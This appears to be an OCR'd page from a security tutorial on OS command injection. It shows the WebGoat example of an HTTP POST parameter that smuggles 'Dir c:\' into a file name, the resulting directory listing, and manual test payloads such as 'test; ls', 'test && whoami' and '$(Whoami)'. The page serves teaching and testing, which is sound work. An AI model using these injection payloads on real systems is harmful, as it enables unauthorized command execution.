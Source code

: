```html
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```
If the application doesn’t validate the request, we can obtain the following result:

```html
Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
```
In this case, we have successfully performed an **OS injection** attack.


-----

### Manual Test
* Bug Hunters Injecting specific characters (such as `;`, `&&`, `||`, `|`, `&`) at different program inputs, they check whether the operating system commands can be injected.

**Example:**

In the search form, instead of entering the ordinary text, inputs like `test; ls` or `test && whoami` and check if these commands are executed.

**Note:**

Examine unexpected responses from the server that may indicate the execution of the injected commands.

* **Using known Payloads**

Injection of values ​​such as `$(Whoami)` or `${7*7}` in input parameters.

## Top 25 Remote Code Execution (RCE) Parameters
